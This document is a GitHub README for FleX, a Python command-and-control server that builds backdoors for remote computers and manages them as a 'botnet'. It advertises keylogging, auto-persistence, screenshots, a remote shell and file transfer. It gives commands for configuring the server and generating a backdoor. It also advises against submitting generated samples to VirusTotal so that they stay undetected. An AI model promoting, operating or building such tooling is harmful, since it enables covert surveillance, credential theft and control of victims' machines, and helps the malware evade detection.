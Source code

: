 # FleX

FleX. A Simple C&C Server Written In Python.

__Warning:__  Do not submit any of the samples generated by this software to online scanners such as, Virustotal and NoDistribute. Doing so will render the software useless.
 
# Features
  - Upload & Download
  - Auto-persistence
  - Screenshot
  - Keylogger
  - Shell
  
You can also:
  - Get system information of a remote computer
  - Get the geolocation of a remote computer
  - Launch chrome on a remote computer
  - Shutdown a remote computer

### Requirements

* [Mss](https://pypi.python.org/pypi/mss/) - Used for screenshots
* [Cmd2](https://pypi.python.org/pypi/cmd2) - Interactive command line
* [Wine](https://www.winehq.org/) - Used for generating  executables
* [Requests](http://docs.python-requests.org/en/master/) - Used for Accessing the internet

### Installation

FleX requires [Python](https://www.python.org/downloads/release/python-2714/) v2.7 and [Kali Linux](https://www.kali.org/downloads/) to run.

Install the requirements 
```sh
$ cd setup
$ python install.py
```

Start the program
```sh
$ cd ..
$ python flex.py
```

View all of commands
```sh
$ help
```

Get detail about a command
```sh
$ help getinfo
```

Configure the server
```sh
$ setip 127.0.0.1
$ setport 4444
```

View the server status
```sh
$ server_info
```

Start the server
```sh
$ server_start
```

Create a backdoor
```sh
$ create 127.0.0.1 4444 name
```

Display connected computers and their corresponding ID's
```sh
$ botnet
```
